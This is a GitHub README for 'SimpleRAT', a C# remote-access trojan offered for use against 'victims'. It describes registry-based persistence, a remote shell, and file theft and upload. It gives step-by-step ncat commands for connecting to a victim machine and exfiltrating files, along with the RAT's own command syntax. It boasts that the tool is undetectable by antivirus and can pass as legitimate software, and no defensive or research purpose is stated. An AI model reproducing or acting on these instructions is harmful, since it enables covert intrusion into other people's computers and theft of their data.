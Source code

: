 # SimpleRAT

Self-contained Remote-Access-Trojan/Backdoor written fully in C#.
After installation and launch, listens on port specified in JSON configuration. After successfull connection gives remote shell.
Configured for self-startup (key in registry)
Developed for Windows, Fully compatible with Netcat (tested with windows version). 
NO additional server setups for file downloads or uploads
NO additional dll's or configuration files 
Only one .exe and netcat on your side.

# What RAT can
1. After connection on specified port (provided in JSON file, which can be changed as you wish and should be merged into exe after that by using provided tool), gives reverse shell.
2. Is able to download any files from victim's PC on specified port (provided in JSON file) and upload files on victim PC, no need for server setup or anything, only netcat on your side and launched RAT on victim's side :)
### How to download files:
1. Put netcat on listening state (ncat -v -l -p "port for file download from JSON" > "file name with extension that you want to download")

Example: ncat -v -l -p 8889 > helloworld2.exe

NOTE: I advice you to use "-v" for more verbose output

2. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

3. Check if reverse shell is working (cd, dir)

5. Currently RAT has it's own command interpreter which will listen to commands from your PC, these type of commands begin with "RAT".

For file download command is - "RAT download file -p <windows/path/to/file/withextension>"
  
Process:
![RAT-guide](https://user-images.githubusercontent.com/53906830/109512165-1aee9280-7aa4-11eb-891f-89ff993b7dd4.png)

### How to upload files:
1. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

2. Check if reverse shell is working (cd, dir)

3. Put RAT in listenning state by executing:
RAT upload file -p <path/to/file.exe>

Example: RAT upload file -p C:\Users\someuser\checkme\ConsoleApp4.exe

4. Send file through netcat on main port of your RAT

Example: ncat 192.168.88.230 8888 --send-only < ConsoleApp4.exe

Process:
![rat-upload](https://user-images.githubusercontent.com/53906830/110226904-37029180-7ef3-11eb-897b-8c7db2e9a581.png)

Currently RAT is FUD as it is small and simple, without any specific features.

## Downsides
1. High .exe application size (35 MB) 
2. High memory usage

![rat-memory](https://user-images.githubusercontent.com/53906830/110226932-73ce8880-7ef3-11eb-9f0e-b455832e95b4.png)

Both problems are because RAT is self-contained application with builded-in .NET runtime.
From one side those are problems for sure, from other side you could mask program with such size and memory usage as other legitimate one :)

### Features To Be Done: 

1. Automatic ports opening required for communication;
2. RAT as Windows Service (?)
